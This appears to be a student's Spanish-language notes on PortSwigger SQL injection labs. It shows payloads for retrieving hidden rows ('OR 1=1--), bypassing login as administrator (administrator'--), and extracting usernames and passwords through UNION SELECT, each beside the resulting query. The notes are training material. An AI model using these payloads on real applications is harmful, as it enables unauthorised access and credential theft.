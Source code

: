 
# LABS


## LAB 1 Retrieving hidden data
El clasico que manda verdadero, aunque tambien puede ser un false

'OR 1=1--
'OR+1=1--
```
https://insecure-website.com/products?category=Gifts'--

SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1

https://insecure-website.com/products?category=Gifts'+OR+1=1--

SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```
Inyección: 'OR+1=1--

## LAB 2 Subverting application logic

Este lo hace en login pero podría ser cualquier cosa

```
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```
Inyección
administrator'--

## LAB 3 Retrieving data from other database tables (UNION)
Traer datos de otra tabla suena interesante

Requisitos que no dicen:
-Debes conocer el nombre de la otra tabla
-Debes conocer el numero de parametros que hace la consulta (Depende el manejador de base de datos para hacer UNION deberas consultar la misma contidad de datos de la cosulta original)
-Debes conocer el tipo de dato que se esta enviando (Lo mismo depende el navegador, y como este configurada la aplicación de los contrario no funcionará)

*Me cagan los laboratorios idelalistas

```
SELECT name, description FROM products WHERE category = 'Gifts'
La inyección seria
' UNION SELECT username, password FROM users--
Resultado
SELECT name, description FROM products WHERE category = 'Gifts' UNION SELECT username, password FROM users--
```
Acá ya hablan de los requisitos: https://portswigger.net/web-security/sql-injection/union-attacks

